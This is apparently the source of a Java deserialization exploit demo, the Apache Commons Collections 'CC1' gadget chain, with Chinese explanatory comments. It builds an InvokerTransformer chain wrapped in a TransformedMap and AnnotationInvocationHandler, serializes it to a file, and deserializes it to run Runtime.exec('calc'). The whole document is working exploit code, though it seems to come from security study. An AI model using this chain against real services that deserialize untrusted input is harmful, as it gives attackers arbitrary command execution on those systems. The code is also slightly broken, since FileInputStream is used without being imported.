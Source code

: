 ```java
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.annotation.RetentionPolicy;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import java.lang.reflect.Method;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
public class Demo3 {
    public static Object generatePayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),//返回我们的类
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
        };               //这里和我上面说的有一点点不同,因为Runtime.getRuntime()没有实现Serializable接⼝,所以这里用的Runtime.class。class类实现了serializable接⼝

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innermap = new HashMap();
        innermap.put("value", "xxx");
        Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        Object instance = ctor.newInstance(Retention.class, outmap);
        return instance;
    }

    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```